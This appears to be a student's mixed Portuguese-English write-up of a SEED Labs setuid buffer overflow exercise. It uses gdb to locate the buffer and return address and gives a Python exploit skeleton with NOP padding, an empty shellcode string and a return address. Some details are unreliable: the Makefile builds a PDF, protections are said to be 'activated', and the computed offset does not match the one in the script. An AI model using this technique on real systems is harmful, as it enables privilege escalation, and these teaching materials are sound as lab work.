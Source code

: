 # Trabalho realizado na Semana 5 

## Task 1

After compiling and executing the programs, we didn't notice any differences between sheelcode 32 and 64 bits.

## Task 2 

Using the Makefile provided by SeedLabs, we managed to compile in a way that StackGuard and the non-executable stack protection were activated so we could execute the attack.

```Makefile
LAB    = Buffer_Overflow_Setuid
LABPDF = $(LAB).pdf
CF     = ../../common-files
DEPEND = $(CF)/header.tex $(CF)/copyright.tex $(CF)/submission.tex 

all: $(LABPDF)

%.pdf: %.tex $(DEPEND) part_nonexecutable_stack.tex
	pdflatex $<
	pdflatex $<

clean:
	rm -f *.log *.dvi *.aux *.bbl *.blg *~ *.out *.det 
	@@rm -f *~
```

## Task 3

In Task 3, we started by using the gdb so get the distance between the buffer's starting point and the return address. For that, we need the hexadecimal of both of them.

```gdb
$ gdb stack-L1-dbg
```


```gdb
gdb-peda$ b bof ➙ Set a break point at function bof()

```

After that, we `run` the program and the `next` command to go to the bof() function. By stopping inside the bof(), the gbd stops before the ebp register is pointing towards the current stack frame and from there we can find out the distance between the buffer's starting point and the return address.

![](https://i.imgur.com/b9fXQy3.png)

These two values are important, as we will be using them later!
Agora chegou a parte de fazer o ataque onde usamos o código incompleto fornecido pelo professor!
```python
#!/usr/bin/python3
import sys
shellcode= (
	"" # ✩ Need to change ✩
).encode(’latin-1’)

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 11
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffdfac + 11
offset = 112

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
```

For the shellcode, we use the code with had from Task 2, shellcode 32 bits.

The `start` variable is a "random" value chosen by the group. `ret` is buffer's starting point + start (11).
The `offset` was calculated by subtracting the buffer's starting point from the $ebp (0xffffdfd8 - 0xffffdfac) and adding 4 because the return address is the address after the $ebp.

After making these alterations, we just need to execute the exploit script to create the badfile and run the gdb.

```gdb
$ gdb stack-L1-dbg
```
![](https://i.imgur.com/lNhvUhi.png)
